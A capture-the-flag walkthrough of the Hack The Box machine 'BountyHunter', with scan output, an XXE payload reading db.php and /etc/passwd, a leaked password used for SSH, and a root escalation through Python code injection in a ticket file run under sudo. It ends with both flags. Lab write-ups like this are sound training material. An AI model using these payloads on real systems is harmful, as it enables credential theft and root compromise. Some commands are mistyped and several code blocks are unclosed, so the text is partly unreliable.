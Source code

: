 
#Room name BountyHunter 

	#nmap scan
```
# Nmap 7.91 scan initiated Thu Aug 26 17:54:15 2021 as: nmap -sC -sV -oN nmap.cap 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 26 17:55:07 2021 -- 1 IP address (1 host up) scanned in 51.86 seconds

```
	
	#Gobuster results
```
/index.php            (Status: 200) [Size: 25169]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/portal.php           (Status: 200) [Size: 125]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]

```


	#We found tasks on 'http://10.10.11.100/resources/README.txt'

```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions

```

	#We found some interesting Directory 
```
http://10.10.11.100/log_submit.php
```


	#After capturing the request we find that here is xml XXE entity 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]>
```
	#In the first field use
```
&xxe;
```
	#We grab the db.php file having this information
```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```
![Image](https://raw.githubusercontent.com/sigwotts/HTB-Walkthrough/main/bounty-hunter/Screenshot%202021-09-08%20at%203.56.36%20AM.png?token=AS3E3VMLGWIXHFH252PLCTTBHIZH6)



#But we tried using ssh it didn't worked, then we use to see the /etc/passwd file


	#First we have to encode this to url encoding then to base64
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> ]>

		<bugreport>
		<title>&xxe;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
		</bugreport>
```


	# By enocoding this to enoding url then to base64 and after replacing the request in the burpsuite, we get
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

``` 

	#Here we got the creds 
```
development:m19RoAU0hP41A1sTsq6K
```
#Boom we sucessfully login to the machine via ssh


	#Here we got the user flag
```
e83009fb0ded5f74b50aa794e0562246
```

	#Then we use 
```
sudo -l
```
```
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

```

#Now we can exploit by creating a file named as sig.md 
```
# Skytrain Inc   
## Ticket to root  
__Ticket Code:__  
**102 + 10 == 112 and __import__('os').system('/bin/bash') == False
``
	#Then start a python server on your machine
```
http -m python.server 1234
```

#Then upload this file in the /opt directory by using the cmd
```
wget http://10.10.14.157:1234/sig.md
```
	#Then we give permission to the file by 
```
chmod 777 sig.md
```

	#then run the tickerValidator.py
```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

	#specify the ticket path to
```
/tmp/sig.md
```
#BOOOOOOOOOOOOOOOOOOOMMMM!!!!!!!!!!!  WE ARE ROOT


	#Now you can get the flag
```
cat /root/root.txt
``
	#Here is the flag
```
0cc723be65032a28eadcc712c03defd5
```





